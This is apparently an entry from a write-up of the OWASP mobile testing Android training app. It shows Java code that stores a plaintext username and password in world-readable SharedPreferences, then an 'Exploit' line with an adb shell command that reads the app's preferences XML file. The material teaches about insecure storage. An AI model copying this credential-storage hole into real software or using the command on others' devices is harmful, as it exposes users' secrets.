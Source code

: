 ## OMTG-DATAST-001-SHAREDPREFERENCES

> app/src/main/java/sg/vp/owasp_mobile/OMTG_Android/OMTG_DATAST_001_SharedPreferences.java

```java
SharedPreferences.Editor edit = getSharedPreferences("key", 1).edit();

edit.putString("username", "administrator");
edit.putString("password", "supersecret");

edit.commit();
```

Exploit:

- `$ adb shell cat /data/user/0/sg.vp.owasp_mobile.omtg_android/shared_prefs/sg.vp.owasp_mobile.omtg_android_preferences.xml`
